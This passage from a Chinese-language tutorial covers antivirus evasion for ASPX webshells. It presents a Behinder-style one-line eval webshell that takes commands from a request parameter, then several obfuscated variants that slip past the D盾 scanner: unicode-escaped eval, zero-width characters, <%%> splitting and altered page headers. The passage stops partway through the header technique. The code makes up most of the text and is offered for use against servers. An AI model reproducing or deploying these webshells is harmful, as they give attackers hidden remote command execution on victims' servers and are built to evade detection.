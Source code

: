   

 **0x03 aspx的免杀**

aspx免杀的方式相对于PHP和java的较少，这里列出5种方式来bypass进行免杀  

  *   *   *   *   *   * 

    
    
    unicode编码空字符串连接<%%>截断头部替换特殊符号@注释

  
我们以一个普通的冰蝎马作为示例

  * 

    
    
    <%@ Page Language="Jscript"%>eval(@Request.Item["pass"],"unsafe");%

  

这一步无需多言，一定是会被D盾所查杀的

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220416212809.png)  

####  **1、unicode编码**

例如eval他可以变为\u0065\u0076\u0061\u006c，经过我本地的测试，它不支持大U和多个0的增加

  * 

    
    
    <%@ Page Language="Jscript"%><%\u0065\u0076\u0061\u006c(@Request.Item["pass"],"unsafe");%>

  

####  **2、空字符串连接**

在函数字符串中插入这些字符都不会影响脚本的正常运行，在测试前需要注意该类字符插入的位置，否则插入错误的地方会产生报错

  *   *   *   * 

    
    
    \u200c\u200d\u200e\u200f

  

####  **3、使用 <%%>语法**

将整个字符串与函数利用<%%>进行分割

  * 

    
    
    <%@page Language=JS%><%eval%><%(Request.%><%Item["pass"],"unsafe");%>

  

####  **4、头部免杀**

之前有遇到过检测该字段的<%@ Page Language="C#"
%>，这个是标识ASPX的一个字段，针对该字段进行免杀%@Language=CSHARP%，很久之前修改为这样就过了，同样的，可以修改为

  * 

